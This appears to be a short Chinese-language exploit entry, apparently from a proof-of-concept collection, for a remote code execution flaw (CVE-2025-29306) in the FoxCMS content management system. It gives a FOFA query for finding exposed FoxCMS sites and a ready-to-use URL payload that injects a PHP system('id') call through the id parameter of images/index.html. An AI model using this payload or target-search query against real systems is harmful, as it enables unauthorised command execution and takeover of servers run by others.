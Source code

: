 # FOXCMS黔狐内容管理系统_远程代码执行漏洞(CVE-2025-29306)

# 漏洞简介
FoxCMS黔狐内容管理系统存在远程代码执行漏洞（CVE-2025-29306）‌。该漏洞存在于FoxCMS的index.html接口中，允许攻击者通过特定的输入执行远程代码，从而控制受影响的系统‌。

# fofa
body="foxcms-logo" || body="foxcms-container"

# poc
```
http://host/images/index.html?id=%24{%40print(system(%22id%22))
```
